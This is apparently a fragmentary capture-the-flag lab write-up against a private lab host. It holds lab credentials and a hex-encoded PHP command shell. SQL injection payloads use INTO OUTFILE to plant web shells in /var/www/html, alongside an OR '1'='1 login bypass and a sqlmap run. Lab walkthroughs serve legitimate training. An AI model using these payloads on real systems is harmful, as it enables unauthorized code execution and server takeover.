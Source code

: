 ```bash
<img width="1273" height="181" alt="image" src="https://github.com/user-attachments/assets/6f9bb743-4680-4ee1-bb61-8432e08e5e96" />



10.201.70.130/admin/

tom
Submit Query


<img width="1274" height="300" alt="image" src="https://github.com/user-attachments/assets/fcfe086f-b747-4ecd-8250-b4c0a5b025df" />


Username Pasword
tom thecat


Inspect
10.201.70.130/admin
Refreshed


<img width="1276" height="527" alt="image" src="https://github.com/user-attachments/assets/b08a08a5-86ba-4aef-bbc6-95580de3d9e1" />




<img width="1279" height="510" alt="image" src="https://github.com/user-attachments/assets/98a0ada8-2693-46a8-938c-bbd4b41e2c63" />




:~/Metamorphosis# python3
Python 3.8.10 (default, Sep 11 2024, 16:02:53) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print (("<? system($_GET['cmd]); ?>").encode('utf-8').hex())
3c3f2073797374656d28245f4745545b27636d645d293b203f3e
>>> 

username=researcher" UNION ALL SELECT NULL,0x3c3f7068702073797374656d28245f4745545b27636d64275d293b3f3e,NULL INTO OUTFILE "/var/www/html/rev.php"-- -

x3rz" UNION ALL SELECT NULL,0x3c3f7068702073797374656d28245f4745545b27636d64275d293b3f3e,NULL INTO OUTFILE "/var/www/html/revshell.php"-- -


username=tom' OR '1'='1

```bash
:~/Metamorphosis# sqlmap -u http://10.201.70.130/admin/ --data "username=FUZZ" --level 5 -D db --tables
...
[22:16:52] [INFO] testing 'Oracle time-based blind - ORDER BY, GROUP BY clause (DBMS_PIPE.RECEIVE_MESSAGE)'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] n
```
